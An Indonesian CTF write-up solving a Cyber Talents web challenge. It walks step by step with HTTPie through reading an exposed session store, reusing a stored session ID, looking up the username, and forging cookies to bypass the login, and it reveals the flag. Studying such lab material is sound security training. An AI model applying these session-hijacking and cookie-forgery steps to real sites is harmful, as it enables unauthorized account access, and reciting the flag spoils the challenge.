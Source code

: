## [Writeup] Cyber Talents: The Restricted Sessions


Tutorial ini akan membahas solusi untuk soal CTF [Cyber Talents: The Restricted Sessions](https://cybertalents.com/challenges/web/the-restricted-sessions) yang masuk dalam kategori web security. Berikut ini adalah penjelasan untuk soal tersebut:

```
Flag is restricted to logged users only , can you be one of them.
```

Dan soalnya dapat ditemukan pada [tautan ini](http://34.77.37.110/restricted-sessions/). Kita akan menggunakan [HTTPie](https://httpie.org/) untuk menyelesaikan soal tersebut. Berikut ini adalah langkah-langkahnya:

* Buka tautan soal tersebut menggunakan httpie:

```bash
% http 'http://34.77.37.110/restricted-sessions/'
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Wed, 29 Jul 2020 11:21:31 GMT
Server: nginx/1.10.3 (Ubuntu)
Transfer-Encoding: chunked

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <!-- The above 3 meta tags *must* come first in the head; any other head content must come *after* these tags -->
    <title>Sessions</title>

    <!-- Bootstrap -->
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/font-awesome/4.6.3/css/font-awesome.min.css" />

    <!-- HTML5 shim and Respond.js for IE8 support of HTML5 elements and media queries -->
    <!--[if lt IE 9]>
      <script src="https://oss.maxcdn.com/html5shiv/3.7.3/html5shiv.min.js"></script>
      <script src="https://oss.maxcdn.com/respond/1.4.2/respond.min.js"></script>
    <![endif]-->
    <script type="text/javascript">
      var cu = null;
    </script>
  </head>
  <body>

    <div class="container">
      <h1>Welcome to sessions valley</h1>
      <hr />
              <h2>You are not logged-in so you don't have any flag to view</h2>
            <h3>Flag: NULL</h3>
    </div>

    <!-- jQuery (necessary for Bootstrap's JavaScript plugins) -->
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.4/jquery.min.js"></script>
    <!-- Include all compiled plugins (below), or include individual files as needed -->
    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js" integrity="sha384-Tc5IQib027qvyjSMfHjOMaLkfuWVxZxUPnCJA7l2mCWNIpG9mGCD8wGNIcPD7Txa" crossorigin="anonymous"></script>
    <script type="text/javascript">

      if(document.cookie !== ''){
        $.post('getcurrentuserinfo.php',{
          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1]
        },function(data){
          cu = data;
        });
      }
    </script>
  </body>
</html>
```

* Bisa terlihat bahwa flagnya bernilai **NULL**, dan kita harus melakukan login untuk memperoleh flag. Perhatikan bagian akhir dari halaman tersebut, terdapat javascript berikut ini:

```javascript
<script type="text/javascript">

  if(document.cookie !== ''){
    $.post('getcurrentuserinfo.php',{
      'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1]
    },function(data){
      cu = data;
    });
  }
</script>
```

* Script tersebut akan memeriksa _Cookie_ yang dikirimkan, apakah memiliki nilai **PHPSESSID**. Maka selanjutnya kita akan mengirimkan cookie tersebut seperti ini:

```bash
% http "http://34.77.37.110/restricted-sessions/" "Cookie:PHPSESSID=admin"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Thu, 30 Jul 2020 02:44:54 GMT
Server: nginx/1.10.3 (Ubuntu)
Transfer-Encoding: chunked

Session not found in data/session_store.txt
```

* Kali ini muncul pesan bahwa session yang kita gunakan tidak ditemukan pada file `data/session_store.txt`. Jadi kita akan melihat apa isi dari file tersebut dengan mengirimkan _request_ berikut ini:

```bash
% http "http://34.77.37.110/restricted-sessions/data/session_store.txt"
HTTP/1.1 200 OK
Accept-Ranges: bytes
Connection: keep-alive
Content-Length: 80
Content-Type: text/plain
Date: Thu, 30 Jul 2020 02:47:20 GMT
ETag: "59edfa97-50"
Last-Modified: Mon, 23 Oct 2017 14:20:07 GMT
Server: nginx/1.10.3 (Ubuntu)

iuqwhe23eh23kej2hd2u3h2k23
11l3ztdo96ritoitf9fr092ru3
ksjdlaskjd23ljd2lkjdkasdlk
```

* Ternyata terdapat tiga buah sesi pada file **session_store.txt**. Kita akan mencoba session pertama, yaitu **iuqwhe23eh23kej2hd2u3h2k23**. Berikut ini adalah request yang akan kita kirimkan:

```bash
% http "http://34.77.37.110/restricted-sessions/" "Cookie:PHPSESSID=iuqwhe23eh23kej2hd2u3h2k23"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Thu, 30 Jul 2020 02:50:49 GMT
Server: nginx/1.10.3 (Ubuntu)
Transfer-Encoding: chunked

UserInfo Cookie don't have the username , Validation failed
```

* Kali ini, kita memerlukan _Cookie_ **UserInfo**. Perhatikan kembali javascript pada bagian awal tutorial ini. Pada javascript tersebut, bisa terlihat bahwa _Cookie_ **PHPSESSID** akan dikirimkan ke halaman **getcurrentuserinfo.php**. Kita akan mengirimkan request tersebut, seperti ini:

```bash
% http -f "http://34.77.37.110/restricted-sessions/getcurrentuserinfo.php" "PHPSESSID=iuqwhe23eh23kej2hd2u3h2k23"
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: keep-alive
Content-Type: application/json
Date: Thu, 30 Jul 2020 02:49:59 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: nginx/1.10.3 (Ubuntu)
Set-Cookie: PHPSESSID=90acf17lkegqor9tvgf9pdjs94; path=/
Transfer-Encoding: chunked

{
    "email": "john@example.com",
    "name": "john",
    "session_id": "iuqwhe23eh23kej2hd2u3h2k23"
}
```

* Bisa terlihat bahwa, _username_ untuk _session_ tersebut adalah **john**. Sekarang kita akan menambahkan informasi tersebut pada _Cookie_ dan mengirimkannya ke server seperti ini:

```bash
% http "http://34.77.37.110/restricted-sessions/" "Cookie:PHPSESSID=iuqwhe23eh23kej2hd2u3h2k23; UserInfo=john"                                                                                                              [2/251]
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Thu, 30 Jul 2020 02:58:02 GMT
Server: nginx/1.10.3 (Ubuntu)
Transfer-Encoding: chunked

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <!-- The above 3 meta tags *must* come first in the head; any other head content must come *after* these tags -->
    <title>Sessions</title>

    <!-- Bootstrap -->
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/font-awesome/4.6.3/css/font-awesome.min.css" />

    <!-- HTML5 shim and Respond.js for IE8 support of HTML5 elements and media queries -->
    <!--[if lt IE 9]>
      <script src="https://oss.maxcdn.com/html5shiv/3.7.3/html5shiv.min.js"></script>
      <script src="https://oss.maxcdn.com/respond/1.4.2/respond.min.js"></script>
    <![endif]-->
    <script type="text/javascript">
      var cu = null;
    </script>
  </head>
  <body>

    <div class="container">
      <h1>Welcome to sessions valley</h1>
      <hr />
              <h2>You are Loggedin</h2>
            <h3>Flag: sessionareawesomebutifitsecure</h3>
    </div>

    <!-- jQuery (necessary for Bootstrap's JavaScript plugins) -->
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.4/jquery.min.js"></script>
    <!-- Include all compiled plugins (below), or include individual files as needed -->
    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js" integrity="sha384-Tc5IQib027qvyjSMfHjOMaLkfuWVxZxUPnCJA7l2mCWNIpG9mGCD8wGNIcPD7Txa" crossorigin="anonymous"></script>
    <script type="text/javascript">

      if(document.cookie !== ''){
        $.post('getcurrentuserinfo.php',{
          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1]
        },function(data){
          cu = data;
        });
      }
    </script>
  </body>
</html>
```

* Bisa terlihat bahwa kali ini kita berhasil login, dan memperoleh flagnya, yaitu `sessionareawesomebutifitsecure`

Sekian tutorial singkat kali ini, semoga bermanfaat. Terima kasih kepada Allah SWT, dan Anda yang telah membaca tutorial ini.
